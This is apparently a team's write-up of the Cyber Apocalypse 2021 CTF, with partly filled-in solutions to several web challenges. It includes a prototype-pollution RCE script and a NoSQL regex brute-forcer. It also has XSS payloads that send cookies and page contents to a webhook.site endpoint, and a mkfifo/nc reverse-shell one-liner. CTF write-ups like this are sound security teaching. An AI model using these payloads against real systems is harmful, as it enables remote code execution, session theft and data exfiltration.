



# Cyber Apocalypse 2021
The CTF was active from 19 Apr, 2021 22:00 until 24 Apr, 2021 08:00.
Participants: sinfulz, Fugl, Legacyy, Pwning, payl0ad, x3ph, bread, firedank.



## Overview

 Title          | Category      | Points        | Flag         |
| ------------- | ------------- | ------------- | ------------- |
| BlitzProp       | Web           | 300           |               |             
| Inspector Gadget       | Web           | 400           |               |
| DaaS | Web           | 125           |
| MiniSTRyplace     | Crypto        | 150           | CHTB{}         
| Caas| Crypto        | 200           |               | 
| Wild Goose Hunt | Misc| 100           |               |
| E.Tree          | Misc          | 125           | CHTB{}             
| The Galatic Times | Misc          | 175           | CHTB{}
| Cessation    | Misc          | 400           |               |
| emoji voting| Misc        | 200           |               |             
| Alien compliant form       | Pwn           | 200           |               | 
| Starfleet     | Pwn           | 150           |               |
| Bug Report        | Pwn           | 600           |               |             
| Controller     | Reversing     | 100           | CHTB{}               | 
| Minefield       | Reversing     | 125           | CHTB{}               |
| Nintendo Base64         | Reversing     | 400           |               |             
| PhaseStream 1    | Reversing     | 600           |               | 
| PhaseStream 2        | Stego         | 425           | CHTB{} 
| PhaseStream 3| OSINT        | 225 |CHTB{}|
| PhaseStream 4        | Mobile        | 400           |               | 


##

# BlitzProp

Solved By: bread
found similar chal, which points to [https://blog.p6.is/AST-Injection/#Pug](https://blog.p6.is/AST-Injection/#Pug)

first i ran

```bash
execSync(`ls -l /app > /app/static/out`)
```

which gave me the name of the flag
then i changed  the payload to  the following to get the flag.

```bash
import requests

TARGET_URL = 'http://138.68.151.248:30910'

# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = {
    "song.name":"The Goose went wild",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process')."
    }
    })

print(r.status_code)
print(r.text)
print(requests.get(TARGET_URL+'/static/out').text)
```

```
CHTB{p0llute_with_styl3}
```

##

# Inspector Gadget

Solved By: pwning

##

# DaaS

Solved By: FireHawk

We see that the server is running laravel. We also get a hint in the challenge in the info that the page is running in debug mode
If we search for some recent laravel exploits we find this blog post:

[https://www.ambionics.io/blog/laravel-debug-rce](https://www.ambionics.io/blog/laravel-debug-rce)

We can then search some more and we find a github page with a POC for the exploit

[https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits)

If we create a phar file as the POC demonstrates and run the python script we get rce and we can find the flag in the root directory of the server:



```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```

##

# MiniSTRyplace

Solved By:

##

# Caas

Solved By: PJ

I started off by downloading source code for Caas web_caas.zip Upon reviewing the source code on file 'CommandModel.php' within `web_caas\challenge\models` I noticed the following interesting string of code `$this->command = "curl -sL " . escapeshellcmd($url)`.  The code indicates that a raw curl command is run with the flags -s and -L which executes silently and automatically follows redirects.  Knowing this I took advantage of a basic technique utilizing a the file protocol to read files.
A simple working poc would be `file://127.0.0.1//etc/passwd` which simply displays the passwd file. From here I was able to directly access the webservers directory and access the flag file by typing `file://127.0.0.1/flag`.

```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```
##

# Wild Goose Hunt

Solved By: Legacyy & PJ

Looking at the page mongo source, we have some nosql, with a username of admin, and admin's password is the flag, we can authenticate easily

PJ pointed out that we can use logical operators to bypass authentication, in this case, we can use regex to brute force the password. I did so using the script below

```python
import requests

HOST = "http://138.68.140.24:30300/api/login"

valid_characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}{!"

post_data = {
    "username": "admin",
    "password[$regex]": ""
}

password = "^CHTB"

while password[-1] != "}":
    for char in valid_characters:
        post_data["password[$regex]"] = password + char
        r = requests.post(HOST, data=post_data)
        # If logs in successfully...
        if ("welcome back" in r.content.decode("utf-8")):
            password += char
            print(password[1:])
            break
```

##

# E.Tree

Solved By: Legacyy?

##

# Wild Goose Hunt

Solved By: Legacyy & PJ

##

# Extortion

Solved By: ?

##

# The Galatic Times

Solved By: Legacyy

This challenge is an XSS based challenge, very similar to *Alien Complain Form* and *Bug Report.*

When you send "feedback" to `/feedback`, it is shown on `/list`which is only accessible via `127.0.0.1`, aka the bot that will automatically navigate to that page once the feedback is sent. The catch however is this CSP policy

```html
default-src 'self';
script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;
style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;
font-src 'self' https://fonts.gstatic.com/;
img-src 'self' data:;
child-src 'none';object-src 'none'
```

The second line here is our vulnerability - we are able to run the eval command as long as our script comes from [`https://cdnjs.cloudflare.com/`](https://cdnjs.cloudflare.com/)

This leads us to using an adapted version of this payload: [https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-eval-js-cdn](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-eval-js-cdn)

The adaptation that needs to be made is as follows...

The first url must be changed to an appropriate endpoint which we are listening on to capture the "stolen data" (aka get output from our XSS attack), and the second url must be changed to [`http://127.0.0.1:1337/alien`](http://127.0.0.1:1337/alien) because our flag is located at `/alien` meaning we want to grab the contents of the page. This is because the CSP states `default-src 'self'` meaning requests can only be made to the same domain that the document was loaded with, which the bot accesses [`http://127.0.0.1:1337/list`](http://127.0.0.1:1337/list).

From here we simply do some more work with js string manipulation to further shorten the base64 output sent to the server, this is done to avoid invalid requests being made when a url is too long etc. So I ended up with the following payload... Enjoy!

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };var z = new XMLHttpRequest();z.onreadystatechange = function() {if (z.responseText) location = "https://webhook.site/42bfc7b1-e0cf-4e32-b83c-46e83022e703/?data=" + btoa(unescape(encodeURIComponent(z.responseText.substring(z.responseText.search("CHTB{"), z.responseText.search("CHTB{")+50))))};z.open("GET", "http://127.0.0.1:1337/alien", false);z.send();//');}} </div>
```

Base64 decoding the given output gives us the flag!

```
CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}
```
##

# Cessation

Solved By: bread

To bypass the regex you need to have break the match.
regex to beat `http://.*/shutdown`

One trick here is that websites do not care how many slashes you have .
so...

```
http://206.189.121.131:32590//shutdown
```

boom flag!

```
CHTB{c3ss4t10n_n33dsync1ng#@$?}
```

##

# emoji voting

Solved By: bread

##

# Alien compliant form

Solved By: Legacyy

```html
<meta name="language" content="0;http://127.0.0.1:1337/list?callback=var x=function(data){document.location=`https://webhook.site/42bfc7b1-e0cf-4e32-b83c-46e83022e703/?${document.cookie}`;}"HTTP-EQUIV="refresh"" />
```

##

# Starfleet

Solved By: Legacyy

In the web form, enter the following one liner, changing your ip and port to catch a shell :)

```
makelaris+{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 84.69.106.167 4242 >/tmp/f')")()}}@hackthebox.eu
```

Execute:

```
cd /
```

Then execute:

```
./readflag
```

We then get the flag:

```
CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}
```

##

# Bug Report

Solved By: Legacyy

This challenge is a fairly simple XSS, the catch is that the bot is using selenium which has some very unique properties when it comes to cookie management within a browser.

When you submit a url to be "bug checked" a bot makes a get request to the given url. This is especially useful to us because the bot has a cookie containing our flag as shown by the following `[bot.py](http://bot.py)` code snippet:

```python
browser.get('http://127.0.0.1:1337/')

browser.add_cookie({
    'name': 'flag',
    'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
})

try:
    browser.get(url)
    WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
except:
    pass
finally:
    browser.quit()
```

Paying close attention, before processing our request, the bot makes a get request to [`http://127.0.0.1:1337/`](http://127.0.0.1:1337/), meaning that due to how selenium `browser.add_cookie()` works, it will assign the cookie to that domain, meaning our XSS payload must refer to [`http://127.0.0.1:1337`](http://127.0.0.1:1337/). This is perfect for us because there is an XSS on [`http://127.0.0.1:1337/](http://127.0.0.1:1337/)<script>alert(1)</script>`. Using the above information and selenium's strange cookie behaviour, this is the format for a functional payload for this challenge :)

```javascript
http://127.0.0.1:1337/<script>document.location=`http://YOUR_COOKIE_STEALER_HERE/?c=${document.cookie}`</script>
```

And there we have the flag!



```
CHTB{th1s_1s_my_bug_r3p0rt}
```
